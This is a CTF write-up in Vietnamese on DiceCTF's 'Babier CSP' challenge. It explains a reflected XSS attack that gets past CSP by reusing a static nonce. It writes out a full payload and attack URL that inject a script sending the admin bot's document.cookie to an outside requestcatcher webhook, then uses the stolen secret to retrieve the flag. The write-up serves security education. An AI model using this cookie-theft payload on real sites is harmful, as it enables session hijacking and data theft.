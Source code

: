 # BABIER CSP
### Thử thách: 
- [Baby CSP](https://2020.justctf.team/challenges/14)  was too hard for us, try Babier CSP.
- [babier-csp.dicec.tf](https://babier-csp.dicec.tf/)
- [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)
- The admin will set a cookie  `secret`  equal to  `config.secret`  in index.js.
- Downloads
``index.js``
### Kiến thức nền:
- Content Security Policy (CSP).
- XSS (Cross-site scripting).
- Webhook (Reverse API).
### Giải quyết vấn đề:
1/ Initial reconnaissance:
Đề bài cho hai trang 1 là của client và 1 là của admin. Check thằng client trước xem sao:
![image](https://user-images.githubusercontent.com/61876488/107622961-36c3fd00-6c8b-11eb-8344-05a60fc4db10.png)

Bấm thử vào cái dòng "View Fruit" liên tục thì nó hiện ra tên các loại Fruit:v

![image](https://user-images.githubusercontent.com/61876488/107623162-80ace300-6c8b-11eb-998b-b69306aa4ab5.png)

CTRL + U rồi check source code xem:
```html
<html>
<a href='#' id=elem>View Fruit</a>
<script nonce=g+ojjmb9xLfE+3j9PsP/Ig==>
elem.onclick = () => {
location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
</html>
```
Từ source code ta biết được trang web này sẽ random các loại Fruit bao gồm "apple", "orange", "pineapple", "pear" rồi hiển thị tên nó lên mỗi lần mình click vào dòng "View Fruit". Tên của các fruit này được truyền thông qua GET parameter "name". Thử inject một vài thứ gì đó vui vui xem nào. 

![image](https://user-images.githubusercontent.com/61876488/107624024-d46bfc00-6c8c-11eb-8ccc-7793e966d6e0.png)

Uầy!! Được luôn nè! Như vậy khả năng cao trang web này bị dính XSS rồi. Tiếp tục khai thác thôi.
2/ Bypassing CSP to exploiting XSS:
Vừa đúng lúc ngày hôm qua mới được học về XSS. Tuy nhiên khi check thử vài payload XSS mẫu như `<script> alert(1) </script>` (script hiện dòng cảnh báo có nội dung là "1" ở trên trang web ) thì không thấy gì cả. Check lại source code của trang web thì tôi phát hiện ra 1 điều đáng ngờ:
```html
<script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='> ... </script>
```
Đây là thẻ script chứa câu lệnh để random các loại fruit rồi print ra. Thẻ này có một thuộc tính mà tôi chưa bao gặp `nonce='g+ojjmb9xLfE+3j9PsP/Ig=='`. Thử research 1 chút thì tôi biết được ["nonce"](https://content-security-policy.com/nonce/) là một thuộc tính được quy định trong CSP ([Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)). Chỉ cần paste url vào [đây](https://csp-evaluator.withgoogle.com/) là chúng ta có thể đọc được toàn bộ CSP của trang web đó:

![image](https://user-images.githubusercontent.com/61876488/107743763-186e0800-6d44-11eb-814a-631d50616949.png)

Từ CSP check được ta kết luận rằng tất cả các thẻ trong HTML Document đều không bị "ruled" bởi CSP (vì directive [default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) được set giá trị là "none"), chỉ có duy nhất thẻ script là bị "ruled" (vì [script-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) được set giá trị là "nonce-g+ojjmb9xLfE+3j9PsP/Ig=="). Điều này có nghĩa là nếu muốn inject một thẻ script vào HTML Document của trang web này, ta phải kèm vào nó một thuộc tính nonce với giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='. Download code javascript (NodeJS) "index.js" từ đề bài, tìm thấy dòng code set giá trị cho thuộc tính "nonce" này bằng phương thức [randombytes](https://nodejs.org/api/crypto.html#crypto_crypto_randombytes_size_callback): 
```javascript
const  NONCE = crypto.randomBytes(16).toString('base64');
```
Nhìn có vẻ như giá trị nonce này sẽ random liên tục và mỗi giá trị nonce sẽ chỉ xuất hiện 1 lần mỗi khi ta refresh lại trang (đúng theo quy tắc là thế). Nhưng bằng 1 cách magic nào đó, refresh cái trang này bao nhiêu lần nonce vẫn giữ nguyên giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='??? Ngon quá, vậy là chỉ cần ốp nguyên cái thằng nonce này vào payload là xong hihi!

![image](https://user-images.githubusercontent.com/61876488/107749166-bb2a8480-6d4c-11eb-886e-cd13a7c47cf3.png)

Đã xong phần XSS payload. Như vậy chúng ta hoàn toàn có thể tấn công vào trang web này thông qua lỗ hổng Reflected XSS (các bạn có thể tham khảo về các vuln XSS tại [đây](https://ethical-h4ckers-club.blogspot.com/2020/10/xss-co-ban-cors-va-csp.html)). 
3/ Đánh cắp cookie từ trang admin:
Thông thường khi muốn đánh cắp cookie bằng XSS bạn cần host một server đóng vai trò là điểm cuối tiếp nhận request gửi đến từ trang của victim (do payload XSS đã làm thay đổi đường đi của ban đầu request, thay vì đến nơi cần đến, nó sẽ đến server do bạn host và bạn có thể tha hồ đọc nó!). Thật may mắn là tôi có tìm được một site khá tiện lợi mà đơn giản cho phép chúng ta tạo một [webhook](https://topdev.vn/blog/webhook-la-gi/) có tên là [requestcatcher](https://requestcatcher.com/). Chỉ cần gõ vài phát là bạn có ngay một cái webhook:D

![image](https://user-images.githubusercontent.com/61876488/107753501-bcf74680-6d52-11eb-89bf-18ca9ecabb71.png)

![image](https://user-images.githubusercontent.com/61876488/107753550-cda7bc80-6d52-11eb-96e9-88b683c4cb96.png)

Bây giờ chỉ cần viết lại payload dựa theo CSP đã quy định của trang web:
```html
</h1>  <!-- đóng thẻ h1 lại vì trong HTML có 1 thẻ <h1> (open) -->
<script  nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>   <!-- mở thẻ script với giá trị nonce đã được quy định --> 
scrp_tag = document.createElement('script');  <!-- tạo đối tượng "thẻ script"mới tên là "scrp_tag" -->
scrp_tag.src = 'https://antoine.requestcatcher.com/? flag='.concat(JSON.stringify(document.cookie)); <!-- chỉnh attribute src của "scrp_tag" để request của admin bot được redirect đến webhook mà ta đã tạo và chứa trong đó tham số "flag" được gán bằng cookie của admin bot --> 
scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig==' <!-- setup attribute nonce của "scrp_tag" cho phù hợp với CSP -->
contain_tag = document.querySelector("body"); <!-- tham chiếu đến thẻ body của HTML Document -->
contain_tag.appendChild(scrp_tag); <!-- thêm "scrp_tag" vào body của HTML Document để thực thi script -->
</script>
</h1>
```
Cuối cùng chúng nhúng cái payload này vào link babier-csp.dicec.tf (vì Admin chỉ evaluate một mình cái link này) bằng cách gán nó vào parameter name:
```
https://babier-csp.dicec.tf/?name=</h1><script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>scrp_tag = document.createElement('script'); scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig=='; scrp_tag.src = 'https://antoine.requestcatcher.com/?xss='.concat(JSON.stringify(document.cookie)); contain_tag = document.querySelector("body"); contain_tag.appendChild(scrp_tag);</script></h1>
```
Well well well, hãy xem chúng ta có gì ở webhook https://antoine.requestcatcher.com/ sau khi submit cái link đó ở Admin Bot:

![image](https://user-images.githubusercontent.com/61876488/107759051-5544f980-6d5a-11eb-8655-28f9603c037d.png)
 
 Kết quả trả về ở tham số "flag" là một tham số khác có tên là "secret". Cái tên này nghe khá là quen, hình như mình gặp đâu đó rồi...Hmmm, đây rồi, ngay trong souce code "index.js":
 ```javascript
 const  SECRET = config.secret;
 // to be continued...
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
Hằng SECRET được gán bằng "config.secret", có khả năng "config.secret" là tham số "secret". Đáng chú ý nhất là hàm [middleware](http://expressjs.com/en/guide/using-middleware.html#middleware.built-in) [express.static](https://expressjs.com/en/4x/api.html#express.static) - một hàm chuyên dùng để đọc và xử lý các nội dung tĩnh như file HTML, ảnh... Có thể tạm hiểu rằng sử dụng đường dẫn với token `4b36b1b8e47f761263796b1defd80745` trong request mà ta bắt được sẽ dẫn tới file "secret" của server:

    https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/

Truy cập URL này ta thu được:

![image](https://user-images.githubusercontent.com/61876488/107773599-7adcfd80-6d70-11eb-8db4-00b3a14453a6.png)

Yolo!! CTRL + U rồi lấy flag thôi hehe:

    dice{web_1s_a_stat3_0f_grac3_857720}
